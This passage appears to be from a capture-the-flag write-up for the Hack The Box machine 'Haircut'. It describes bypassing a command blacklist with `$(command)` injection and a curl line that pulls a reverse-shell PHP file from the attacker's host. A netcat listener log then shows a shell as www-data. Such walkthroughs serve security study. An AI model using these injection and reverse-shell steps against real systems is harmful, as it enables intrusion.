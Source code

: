 - **blacklist** exists

![image-20240110072820961](./Haircut.assets/image-20240110072820961.png)

![image-20240110072825377](./Haircut.assets/image-20240110072825377.png)

- **bypass**: `$(command)` -> `http://<ip>/$(command)`

![image-20240110072851582](./Haircut.assets/image-20240110072851582.png)

- **bypass**: `curl http://<url>/rshell.php -o uploads/a.php` -> visit and execute uploaded file path: `[http://haircut.htb/uploads/a.php](http://haircut.htb/uploads/a.html)`

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.24] 59116
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 20:10:33 up  3:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ uname -a
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:0d:4a brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.24/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:d4a/64 scope link
```